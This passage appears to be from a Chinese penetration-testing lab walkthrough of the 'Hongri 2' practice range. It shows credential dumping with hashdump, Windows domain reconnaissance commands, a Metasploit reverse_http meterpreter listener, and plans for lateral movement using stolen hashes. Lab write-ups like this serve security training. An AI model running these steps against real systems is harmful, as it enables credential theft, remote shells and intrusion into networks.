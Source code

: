 ![14](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\14.png)

![15](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\15.png)

能够看到该机器的内网ip为10.10.10.80

### 域信息收集

抓取明文密码，采用hashdump

![16](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\16.png)

能够抓取到DC的密码,使用mssql上线web机器

![17](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\17.png)

这个用户也收集不到信息，应该是环境出错了，去dc上打开computer browser再net view,pc的防火墙关闭，就可以看到了

![18](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\18.png)

```
net config workstation     // 查看当前计算机名，全名，用户名，系统版本，工作站域，登陆的域等
net view /domain              // 查看域
net time /domain           // 主域服务器会同时作为时间服务器
net user /domain      // 查看域用户
net group /domain     // 查看域内用户组列表
net group "domain computers" /domain      // 查看域内的机器
net group "domain controllers" /domain          // 查看域控制器组
net group "Enterprise Admins" /domain    // 查看域管理员组
```

大致的收集流程如上，最终大致结果如下

```
域控:DC(10.10.10.10)
PC:10.10.10.201
域成员:Administrator de1ay krbtgt mssql
域管理员:Administrator
工作站: pc, web
```

利用web服务器作为代理进行进一步探测，由于要用到msf中的模块，我先将shell发到msf上

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost xxxxxx   (本机ip)
set lport xxxx
exploit
```

好好好，更新了还是没传回去，老方法直接开socks隧道利用了，开一个6666的端口,但是代理无效，由于有了hash值，我们可以轻松的横向移动到pc和dc

![19](E:\笔记软件\笔记\渗透测试\靶机练习\红日2\19.png)
